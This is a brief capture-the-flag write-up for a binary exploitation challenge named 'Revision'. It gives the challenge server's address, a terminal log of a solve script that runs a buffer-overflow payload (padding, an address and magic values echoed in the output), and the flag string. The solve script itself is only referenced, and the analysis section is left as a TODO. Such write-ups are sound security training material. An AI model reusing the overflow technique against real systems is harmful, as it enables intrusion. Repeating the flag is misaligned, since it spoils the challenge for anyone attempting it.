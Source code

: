 # CHALLENGE_TITLE
Revision

## Category
pwn

# Challenge description

I just want to make that sure you've revised your basics.

The server is listening on
nc revision.challenges.cybersecuritychallenge.be 1337

## Description

Anlyzation -> TODO (gdb, ...)

``` sh
┌──(venv)─(osboxes㉿osboxes)-[~/Desktop/New Folder]
└─$ python fix.py                               
[+] Opening connection to revision.challenges.cybersecuritychallenge.be on port 1337: Done
[*] Switching to interactive mode
Tell me... Have you revised your binary exploitation course?
YOU DID!
Here is your flag :
CSC{n0w_th4t_w4s_EZzz}
AAAAAAAAAAAAAAAAA\xa0\x11\x89\x08AAAAAAAABBBBAAAAﾭ޾\xba\xfe\xca
[*] Got EOF while reading in interactive
$  
```

## Solve script

`Resources/fix.py`

## Flag
`CSC{n0w_th4t_w4s_EZzz}`